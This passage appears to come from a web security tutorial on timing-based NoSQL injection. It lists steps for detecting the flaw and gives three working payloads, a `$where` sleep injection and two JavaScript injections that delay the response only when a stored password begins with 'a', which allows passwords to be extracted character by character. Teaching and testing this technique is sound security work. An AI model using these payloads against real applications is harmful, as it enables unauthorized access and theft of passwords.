 1. Load the page several times to determine a baseline loading time.
2. Insert a timing based payload into the input. A timing based payload causes an intentional delay in the response when executed. For example, `{"$where": "sleep(5000)"}` causes an intentional delay of 5000 ms on successful injection.
3. Identify whether the response loads more slowly. This indicates a successful injection.

The following timing based payloads will trigger a time delay if the password beings with the letter `a`:

```
admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'
```

```
admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'
```
